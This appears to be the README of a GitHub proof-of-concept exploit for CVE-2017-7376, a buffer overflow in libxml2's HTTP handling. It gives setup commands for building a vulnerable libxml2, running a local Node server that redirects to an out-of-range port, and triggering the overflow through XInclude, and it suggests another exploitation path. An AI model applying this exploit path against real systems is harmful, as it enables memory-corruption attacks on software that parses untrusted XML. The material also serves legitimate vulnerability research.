 # libxml2-exploit
An example exploit for CVE-2017-7376

# Install
Download this repo and a vulnerable version of libxml2, e.g. v2.7.7:
```
git clone https://github.com/brahmstaedt/libxml2-exploit.git
cd libxml2-exploit
wget https://github.com/GNOME/libxml2/archive/v2.7.7.zip
unzip v2.7.7.zip
mv libxml2-2.7.7/ libxml2
```

# Setup

```
cd libxml2
```

## prepare libxml2

To make the success of the exploit more visible, add code to detect the buffer
overflow to libxml2. Not needed, if you have other means of visibility, such
as the application crashing.

```
git apply ../nanohttp.patch
```

## build libxml2

```
./autogen.sh --prefix=$(pwd)/ --without-python
make
make install
```

In case of the following error:
```
aclocal: warning: autoconf input should be named 'configure.ac', not 'configure.in'
```

Replace in configure.in `AM_C_PROTOTYPES` with `dnl AM_C_PROTOTYPES`, e.g. like this:
```
sed 's:AM_C_PROTOTYPES:dnl AM_C_PROTOTYPES:' configure.in -i
```

Go back
```
cd ..
```

## prepare web server
This exploit requires a web server responding with a redirect to a new URL with
a port number greater than 5 digits an below int32max (2147483648 = 2^32/2).

Start server (requires node JS and port 127.0.0.1:8080 to be unused):
```
node http.js &
```

Test web server; should complain about invalid port number 2147426192:
```
wget localhost:8080
```

# Compile

```
make
```

# Run
```
./run.sh
```

Expected output:
```
Buffer overflow is detected
I/O warning : failed to load HTTP resource
buffer_overflow.xml:4: element include: XInclude error : could not load http://localhost:8080/dummy.xml, and no fallback was found
Failed to process include buffer_overflow.xml
```

# To Do
This demo exploit requires the main program to execute `xmlXIncludeProcess()` to reach the faulty code in
libxml2, which is not likely used in many actual implementations. But then nanohttp.c mentions in the comment
that it is a `minimalist HTTP GET implementation to fetch external subsets` which may offer another path of exploitation.
